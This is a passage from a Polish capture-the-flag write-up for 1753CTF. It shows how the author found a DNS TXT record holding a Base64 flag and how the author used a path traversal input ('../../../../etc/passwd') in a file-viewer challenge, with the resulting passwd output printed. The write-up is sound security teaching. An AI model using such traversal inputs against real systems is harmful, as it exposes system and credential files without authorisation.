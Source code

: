Wyszukanie właściwej prelekcji na YouTube to już tylko chwila, a w komentarzach znajdziemy taki w którym Dawid, którego z tego miejsca serdecznie pozdrawiam, opublikował flagę do tego zadania. 

### Sekrecik

To zadanie podobno spędzało Wam sen z powiek, a rozwiązanie jest raczej dość szybkie. Jak widać podany w zadaniu URL sekrecik.1753ctf.pl nie prowadzi raczej do nikąd. Niektórzy pytali nawet czy zadanie nie umarło, ale nie. Ta subdomena faktycznie nie jest nigdzie wpięta, co powie Wam np. komenda ping:

```bash
> ping sekrecik.1753ctf.pl
ping: cannot resolve sekrecik.1753ctf.pl: Unknown host
```

Oczywiście komenda ping odpowiada nam, że nie zna hosta, bo taką odpowiedź dostała z serwera DNS. Ale DNS to nie tylko rekordy wskazujące na to gdzie powinna przekierować nas przeglądarka. Zajrzyjmy więc do rekordów DNS dla sekrecik.1753ctf.pl, listując np. klucze typu TXT które z założenia zawierają dodatkowe informacje:

```bash
> host -t txt sekrecik.1753ctf.pl
sekrecik.1753ctf.pl descriptive text "MTc1M2N7c2lrYW1fbmFfc2llZHphY299"
```

Viola! Otrzymany text to flaga zdradzająca dosyć wstydliwy sekret autora zadania zakodowana przy pomocy Base64!

## PWN

### Egzamin z angielskiego
 
Z zadaniem łączymy się przy pomocy netcata i widzimy prostą przeglądarkę plików tekstowych. Wpisujemy nazwę pliku i pojawia nam się jego zawartość. Niestety kontrola dostępu nie pozwala na otwarcie pliku z flagą brzydko krzycząc "BRAK DOSTEMPU". 

Treść zadania mówi coś o jakiś kotach, więc możemy przypuszczać, że pod spodem wywoływana jest systemowa komenda `cat`. Możemy więc pokusić się o jakiś command injection. Najpierw jednak sprawdźmy czy ten cat jest tam po prostu wołany i wyświetli nam cokolwiek, np. wpisując dużo kropek i slashy możemy zrobić path traversal i odczytać plik etc/passwd:

```bash
wpisz nazwe: ../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
```